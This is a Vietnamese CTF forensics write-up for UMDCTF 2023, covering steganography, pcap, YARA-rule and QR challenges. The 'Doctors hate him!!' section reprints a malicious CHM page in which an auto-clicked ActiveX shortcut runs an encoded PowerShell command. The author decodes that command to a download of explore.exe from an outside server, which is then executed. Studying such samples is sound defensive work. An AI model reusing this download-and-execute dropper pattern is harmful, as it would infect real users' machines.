+++ 
title = "Writeup Forensics - UMDCTF 2023"
date = "2023-05-17"
description = "Writeup UMDCTF 2023"
image = "logo.png"
+++

### Thông tin giải

`UMDCTF 2023` bắt đầu từ 5 giờ sáng ngày 29/04/2023 và kết thúc lúc 5 giờ sáng ngày 01/05/2023 (Không hề phù hợp với 1 người thích ngủ nướng như mình). Các chall ở giải này xoay quanh về chủ đề **Pokemon**.

### Thứ hạng

Team mình đứng thứ 17 với 12799 điểm



Hơi tiếc là trong quá trình giải diễn ra mình không thể full được các bài Forensics (Tầm 5h kết thúc giải thì mình đã quá mệt để suy nghĩ nốt)



Ở trong writeup lần này mình sẽ giải lần lượt các chall theo điểm số tăng dần

### Malware Chall Disclaimer



Chall này thì để hint cho chall `Docter Hate Him`, đến chall đó mình sẽ đề cập sau và ở đây đã cho sẵn flag.

**UMDCTF{i_understand_that_malware_chall_is_sus}**

### Mirror Unknown



Ở đây chúng ta nhận được 1 tấm ảnh


Sử dụng google images thì tìm được cipher bảng chữ cái



Sau đó ném các từ thu được vào tron format của flag là `UMDCTF{}` và thêm chú ý: _Ancient civilizations didn't believe in whitespace of lowercase_

**UMDCTF{SINJOHRUINS}**

### No. 352




Ở đây có nhắc đến password 1 & password 2 --> nghĩ tới công cụ steghide (chú ý đến password 1 là tên của pokemon số 352 - viết chữ thường)

password 1: `kecleon`

```php
┌──(kali㉿Spid3r)-[~/Downloads]
└─$ steghide extract -sf hide-n-seek.jpg
Enter passphrase:
wrote extracted data to "kecleon.jpg".
```

và password 2: `timetofindwhatkecleonishiding` (Theo đề cho)

```php
┌──(kali㉿Spid3r)-[~/Downloads]
└─$ steghide extract -sf kecleon.jpg
Enter passphrase:
wrote extracted data to "flag.txt".
```

**UMDCTF{KECLE0NNNNN}**

### Fire Type Pokemon Only



Ở chall này chúng ta sẽ nhận được 1 file pcapng. Sử dụng Wireshark để đọc dữ liệu.

Mình đã kiểm tra cả `strings` và lọc dữ liệu được capture lại nhưng không thấy có gì thêm ngoài các file lấy từ FTP



Dựa vào header của file `secret` ta có thể biết được file này là 1 file zip (các file còn lại đều đúng định dạng của nó)



Và file zip này bắt chúng ta phải nhập mật khảu ... để lấy 1 file là wisdom.mp4



tìm kiếm thử `pass` trong file pcapng kia thì có password của file này thật ...





### YARA Trainer Gym


Đây là 1 chall khá là thú vị mà mình được tiếp cận :))). Challenge cấp cho chúng ta 1 trang web để thử https://yara-trainer-gym.chall.lol

```php
import "elf"
import "math"

rule rule1 {
    condition:
        uint32(0) == 0x464c457f
}

rule rule2 {
    strings:
        $rocket1 = "jessie"
        $rocket2 = "james"
        $rocket3 = "meowth"

    condition:
        all of ($rocket*)
}

rule rule3 {
    meta:
        description = "Number of sections in a binary"
     condition:
        elf.number_of_sections == 40
}

rule rule4 {
    strings:
        $hex1 = {73 6f 6d 65 74 68 69 6e 67 73 6f 6d 65 74 68 69 6e 67 6d 61 6c 77 61 72 65}
        $hex2 = {5445414d524f434b4554}
        $hex3 = {696d20736f207469726564}
        $hex4 = {736c656570792074696d65}

    condition:
        ($hex1 and $hex2) or ($hex3 and $hex4)
}

rule rule5 {
    condition:
        math.entropy(0, filesize) >= 6
}

rule rule6 {
    strings:
        $xor = "aqvkpjmdofazwf{lqjm1310<" xor
    condition:
        $xor
}

rule rule7 {
    condition:
        for any section in elf.sections : (section.name == "poophaha")
}

rule rule8 {
    condition:
        filesize < 2MB and filesize > 1MB
}
```

Tức là ở đây chúng ta phải tạo ra được 1 file và đẩy lên web (thoả mãn cả 8 rule) để lấy được flag

Mình làm theo kiểu chia file ra thành 2 file nhỏ khác nhau (mỗi file thoả mãn 1 phần rule nào đó) để tránh sự phức tạp khi tạo

File thứ 1 sẽ thoả mãn rule 1-4 và 6-7. File thứ 2 sẽ thoả mãn 2 rules là 5 và 8 (do việc tạo entropy (độ ngẫu nhiên của file) cũng với độ lớn của file hơi khó khi làm đồng thời với việc tạo các thuộc tính ở trên)

#### File thứ nhất



##### rule thứ 1: `uint32(0) == 0x464c457f`

Điều này kiểm tra xem 32 bit đầu tiên (offset 0) có giá trị là `0x464c457f` hay không (tức là file có phải là định dạng ELF hay không).

Để làm được điều này thì khá đơn giản. Thêm vào header của file giá trị `7f 45 4c 46` tương ứng với ELF là được.

##### rule thứ 2:

```php
    strings:
        $rocket1 = "jessie"
        $rocket2 = "james"
        $rocket3 = "meowth"

    condition:
        all of ($rocket*)
```

rule 2 yêu cầu trong file phải chứa các strings: `jessie`, `james` và `meowth`

--> biến đổi qua hex rồi nhét vào file thôi:
`6a 65 73 73 69 65 6a 61 6d 65 73 6d 65 6f 77 74 68`

##### rule thứ 3

```php
    meta:
        description = "Number of sections in a binary"
     condition:
        elf.number_of_sections == 40
```

Rule này kiểm tra số sections của file có đúng bằng 40 hay không. Mình quyết định tạo 1 file từ C để cho nhiều sections ban đầu

```php
┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# echo "int main(){return 0;}" > main.c

┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# gcc -o main main.c
```

Kiểm tra số sections của file `main` mới tạo bằng lệnh

```php
┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# objdump -h main
```

sau đó thêm các sections vào file `main` bằng lệnh (mỗi lần sẽ thêm 1 section, làm liên tục cho tới khi file `main` có 40 sections)

```php
┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# objcopy --add-section .mysection=data.txt main
```

##### Rule thứ 4

```php
    strings:
        $hex1 = {73 6f 6d 65 74 68 69 6e 67 73 6f 6d 65 74 68 69 6e 67 6d 61 6c 77 61 72 65}
        $hex2 = {5445414d524f434b4554}
        $hex3 = {696d20736f207469726564}
        $hex4 = {736c656570792074696d65}

    condition:
        ($hex1 and $hex2) or ($hex3 and $hex4)
```

Chúng ta có thể chọn cặp hex1 và hex2 hoặc hex3 và hex4 để chèn vào file

##### Rule thứ 6

```php
    strings:
        $xor = "aqvkpjmdofazwf{lqjm1310<" xor
    condition:
        $xor
```

Thêm cả đoạn `aqvkpjmdofazwf{lqjm1310<` vào là xong `61 71 76 6b 70 6a 6d 64 6f 66 61 7a 77 66 7b 6c 71 6a 6d 31 33 31 30 3c`

##### Rule thứ 7

```php
    condition:
        for any section in elf.sections : (section.name == "poophaha")
```

cần 1 sections có tên là `poophaha` (Nhớ hãy lưu ý với 40 sections vừa tạo lúc nãy nên có 1 sections là poophaha)

```php
┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# objcopy --add-section .poophaha=data.txt main
```

#### File thứ 2



Phần còn lại thì có rule 5 và 8 nên đi cùng với nhau nên mình sẽ tạo 1 file mới rồi sẽ ghép 2 file lại với nhau

```php
rule rule5 {
    condition:
        math.entropy(0, filesize) >= 6
}

rule rule8 {
    condition:
        filesize < 2MB and filesize > 1MB
}
```
rule 5 yêu cầu entropy của file phải lớn hơn hoặc bằng 6, còn rule 8 sẽ là kích thước của file phải lớn hơn 1MB và nhỏ hơn 2MB

File thứ nhất sau khi mình tạo thì entropy khá thấp (chưa được 1 chấm), nên mình cần tạo 1 file mới có lượng entropy lớn để bù lại

Để entropy (độ ngẫu nhiên) của file lớn hơn hoặc bằng 6 (cái này khá khó với các file được tạo từ các tiến trình của mình vì thường chứa các bytes lặp lại trong file) thì mình sẽ tạo mới 1 file 

```php
┌──(root㉿Spid3r-msi)-[/home/spid3r]
└─# openssl rand -out random.bin 2000000
```

`2000000` ở đây là kích thước của file sau khi tạo, mình chọn con số này để phù hợp với rule 8 và entropy của file `random.bin` sau khi tạo ra rất lớn :))

tiếp theo mình sẽ kết hợp 2 file này lại. Để cho dễ dàng với file có lượng byte lớn thì mình sẽ dùng cyberchef.

[hex của file](https://iamironman1233.github.io/post/umdctf/File/hex.txt) và [file sau khi tạo](https://iamironman1233.github.io/post/umdctf/File/download.elf)

**UMDCTF{Y0ur3_4_r34l_y4r4_m4573r!}**

### Telekinetic Warfare



Bài này thì lấy được 1 file gif (mỗi 1 shot của gif là 1 mã QR), mình viết script để vừa phân tách các QR vừa dịch nó luôn 

```py
import os
import glob
from PIL import Image
from pyzbar.pyzbar import decode

# Replace 'path/to/folder' with the actual path to the folder containing the QR codes
folder_path = 'qrcodes/'
output_file = 'qr_codes.txt'

# Create a list of all the image files in the folder
image_files = glob.glob(os.path.join(folder_path, '*.jpg'))

# Open the output file for writing
with open(output_file, 'w') as f:
    # Loop over each image file in the folder
    for image_file in image_files:
        # Open the image and decode the QR code
        image = Image.open(image_file)
        qr_code = decode(image)

        # If a QR code was detected, write the URL to the output file
        if qr_code:
            url = qr_code[0].data.decode()
            f.write(url + '\n')
```

Sau khi chạy thì thu được 1 đống base64 --> chuyển thành pdf [decode flag](https://iamironman1233.github.io/post//umdctf/File/decode.pdf) 

**UMDCTF{wh0_n33d5_k1net1c_w4rfar3_anyw4ys}**

### Doctors hate him!!



Dựa vào chall `Malware Chall Disclaimer` thì có thể đoán được bài này có liên quan đến mã độc (reverse malware chăng? - Mình cùng anh **little timmy** đã mất cả đêm để ngồi dịch ngược nó file mà mình cho là mã độc và cái kết thật khó quên)

Ở chall này mình nhận được 1 file `chm`. Theo như tìm hiểu thì đây là 1 file Compiled HTML Help. Mình sử dụng Microsoft Help để mở nó thì không thấy có gì lắm... (Ngoại trừ cái button ấn không có gì xảy ra)



Dựa vào cái button này thì mình nghĩ có lẽ ban đầu nó là 1 trang web...

Mình sử dụng tool [HelpSmith](http://www.create-chm.com/chm-help-compiler/) thì thu được file zip sau



Đúng là có chứa 1 trang web thật ... giờ thì chuẩn hơn rồi



Ở trong source của trang web có chứa đoạn base64: `VU1EQ1RGezE5OTdfY2FsbGVkXw==`



--> `UMDCTF{1997_called_`

```php
<PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
<body>
    <!--VU1EQ1RGezE5OTdfY2FsbGVkXw==--> 
    <OBJECT id=shortcut classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"
        width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT> shortcut.Click(); </SCRIPT>
    <div class="container">
        <div class="text"> <strong>
                <h1>DOCTORS HATE HIM!!</h1>
            </strong>
            <p>Do you suffer from low energy, fatigue, and a general lack of motivation? Did your Pokemon leave you for
                a better trainer? Rocket Corp's Master Ball Serum can help! Our all-natural formula boosts your energy
                levels and helps you feel like a young trainer ready to take on the world again!</p><button>Find out
                more!</button>
        </div>
        <div class="image">  </div>
    </div>
</body>

</html>
$env:WEB_REQUEST -Uri http://dns-server:6969/explorer.exe -OutFile explorer.exe; Start-Process explorer.exe
```
và thêm

```php
powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7AA==
```

Dịch base64 cho đoạn trên thì thu được `Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe;`

Sau đó thì mình tìm được 1 đoạn khác 
```php
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```
Dịch base64: 
`Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'`

Đoạn `gurl_jnag_gurve` khá giống flag :)), mình sử dụng chatgpt mới biết nó là ROT13 encode :))), guessing đến chết ạ!!!

